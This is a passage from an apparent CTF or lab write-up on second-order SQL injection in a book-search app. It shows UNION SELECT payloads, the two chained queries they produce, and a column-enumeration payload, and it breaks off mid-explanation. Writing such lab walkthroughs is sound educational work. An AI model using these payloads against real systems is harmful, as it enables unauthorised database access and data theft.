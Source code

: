 This means, that this 2 queries are giving us the result we see above:

```shell
Title: test
description
Author: author
```

Lets try the following payload and see how the queries interact which each other:

```shell
' UNION SELECT '2'-- -
```

```shell
Query 1:
SELECT id FROM books WHERE title like '' UNION SELECT '1'-- -%'
Query 2:
SELECT * FROM books WHERE id = '1'
```

Lets try adding our username test at the start of the payload:

```shell
test' UNION SELECT '1'-- -
```

```shell
Query 1:
SELECT id FROM books WHERE title like 'test' UNION SELECT '1'-- -%'
Query 2:
SELECT * FROM books WHERE id = '3'
```

We can now see, if we add our username at the start, it wouldnt execute the second query, giving us the id 3 even if we wanted to get the id 1 in our payload.

We can run these two payloads targetting id 2 to see the difference easier:
```shell
' UNION SELECT '2'-- -
test' UNION SELECT '2'-- -
```

Now that we know how to run queries on query 2 through query 1, we will try to enumerate the number of columns:

```shell
' UNION SELECT '1' UNION SELECT 1,2,3,4-- -
```

But the payload above didnt work. We might need to edit it slightly with '1'' instead of '1':

```shell
' UNION SELECT '1'' UNION SELECT 1,2,3,4-- -
```

Nice! It worked now. We got 4 columns, with the columns 2,3 and 4 being vulnerable like in the previous task.

Note: If we try the following payloads we wont get anything displayed, thats how we can find out we got 4 columns:
